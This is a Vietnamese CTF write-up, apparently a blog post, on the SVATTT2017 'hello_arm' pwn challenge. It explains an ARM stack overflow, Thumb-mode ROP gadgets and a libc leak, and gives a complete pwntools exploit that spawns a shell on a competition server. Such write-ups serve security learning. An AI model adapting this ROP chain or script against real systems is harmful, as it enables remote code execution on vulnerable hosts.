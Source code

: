 ```yaml
---
layout: post
title: "[SVATTT2017] [Pwn] hello arm"
---
```


Sau khi thọt ở vòng sơ khảo với bài formatstring. Mình đã phục thù với bài daemon **noteservice** . Nhưng lại ngã với bài **hello_arm.**... .

Trong buổi thi thì BTC có cho file img arm để tạo env debug. Xui làm sao hôm đó load file đó lại không ra mạng được, không setup được gdb. Mình down src gdb về build nhưng đến cuối lại bị failed. Vì không setup được env nên không debug được... 

Về nhà mình đã tự build img arm và setup peda-arm để debug.

Link các challenges đã được VNSEC public : https://docs.google.com/spreadsheets/d/e/2PACX-1vQ3hmA1FHf-a2uymoaXk8Cu8yvji_0mYI2EnPbmSzRHoiWMwPuLXj_OpaLcqEtYHYepcI3GG3rEIpEM/pubhtml?gid=0&single=true



Check file: 

```
hello_arm.1: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=c81cfe892f89ccc0d55b9e5d4ec40048b00de0d6, stripped
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```



Quăng vào IDA thì dễ dàng thấy lỗi bof ở đây

```C
int sub_1054C()
{
  int v1; // [sp+0h] [bp+0h]

  puts("Overflow me.");
  read(0, &v1, 1024u); // <--- bof
  return puts("End");
}
```

![](https://i.imgur.com/fEKFqix.png)

ta thấy ins `SUB SP,SP, #0x80` với SP là reg stack pointer nên ta cần padding `0x84` để có thể overwrite địa chỉ trả về.

Bài này có bật ASLR trên server nên cần phải leak địa chỉ libc base trước. 

Để có thể leak được thì cần đưa địa chỉ GOT vào thanh ghi R0. Và cần một gadget dạng `pop {xxx,pc}` để đưa hàm cần gọi vào reg PC (program counter).

dùng ROPgadget để thử tìm gadget cần :

`ROPgadget --binary hello_arm`

`1051c:	e8bdb913 	pop	{r0, r1, r4, r8, fp, ip, sp, pc}` (popret)

nhưng không control được R0. 

Đến đây thì mình đã stuck. Nhưng chợt nhớ đến hint của BTC là **thumb2-mode** .

Sau khi tìm hiểu (http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0344c/Beiiegaf.html ) thì được biết rằng architecture **arm** có 3 loại instruction sets là : ARM thumb và thumb2. ARM dùng instruction 32-bit, thumb dùng instruction 16-bit và thumb2 32 bit mixing giữa 2 loại này (hỗ trợ thumb trên 32-bit và ARM). 

Vì mặc định của của ROPgadget sẽ không hiện các instruction thumb nên cần phải thêm options `--thumb`

`ROPgadget --thumb --binary hello_arm`

Ở đây có 2 gadget mình cần là :

`0x000105fc : pop.w {r3, r4, r5, r6, r7, r8, sb, pc} ; lsrs r2, r6, #4 ; movs r1, r0 ; lsrs r0, r5, #4 ; movs r1, r0 ; bx lr` (popR3)

`0x000105c6 : mov r0, r3 ; pop {r7, pc}` (movR0)

Payload mình sẽ là :

- popret 
- popR3
- got read
- mov R0 ,R3 
- plt puts
- return to main

```python
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(file.got['read']) # parameter
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(file.symbols['puts']) # call function
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
```

Sau khi leak được libc, tiếp theo chỉ cần tính các offset binsh và system để call system("/bin/sh")

script : 

```python
from pwn import *

file = ELF('hello_arm.1')
libc = ELF('./libc-2.23.so')



def main(argv):
	if len(argv)<2:
		r = remote('localhost', 31335)
	else:
		r = remote('119.81.181.254',31335)

	ret2main = 0x0001054C

	r.recvuntil('Overflow me.\n')
	
	popret = 0x1051c
	# 1051c:	e8bdb913 	pop	{r0, r1, r4, r8, fp, ip, sp, pc}
	popr3=0x000105fc
	#0x000105fc : pop.w {r3, r4, r5, r6, r7, r8, sb, pc} ; lsrs r2, r6, #4 ; movs r1, r0 ; lsrs r0, r5, #4 ; movs r1, r0 ; bx lr
	movr0=0x000105c6
	#0x000105c6 : mov r0, r3 ; pop {r7, pc}
	
	#pause()
	
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(file.got['read'])
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(file.symbols['puts'])
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
	
	r.sendline(payload)
	r.recvuntil("End")
	print r.recvline()

	libc.address=u32(r.recv(4))-libc.symbols['read']
	syst=libc.symbols['system']
	binsh=next(libc.search('/bin/sh\x00'))

	log.info("libc base : " + hex(libc.address))
	log.info("system : " + hex(syst))
	log.info("binsh : " + hex(binsh))

	
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(binsh)
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(syst)
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
	
	r.recvuntil('Overflow me.\n')
	r.sendline(payload)

	r.interactive()

if __name__ == '__main__':
	main(sys.argv)
```



![a](https://i.imgur.com/aW7AlOQ.png)

Bài này cũng không khó, chủ yếu phải setup được môi trường ... hi vọng lần sau sẽ không ngã với arm nữa ...


